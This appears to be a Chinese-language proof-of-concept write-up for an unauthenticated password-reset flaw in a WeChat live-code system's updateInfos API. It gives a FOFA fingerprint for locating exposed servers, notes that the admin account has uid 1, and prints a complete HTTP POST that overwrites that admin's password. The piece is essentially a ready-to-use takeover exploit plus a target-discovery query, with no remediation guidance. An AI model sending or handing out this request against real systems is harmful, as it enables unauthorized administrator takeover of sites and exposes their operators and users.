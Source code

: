 # 微信活码系统updateInfos前台未授权任意用户密码修改

## fofa

```javascript
body=".qn-user-login"
```

## poc

默认管理员用户名为admin且uid为1

```javascript
POST /index.php?s=/api/user/updateInfos HTTP/1.1
Host: 192.168.18.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.18.137
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Referer: http://192.168.18.137/index.php?s=/manage/cron/index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 38

uid=1&data[password]=123456789
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411201419577.png)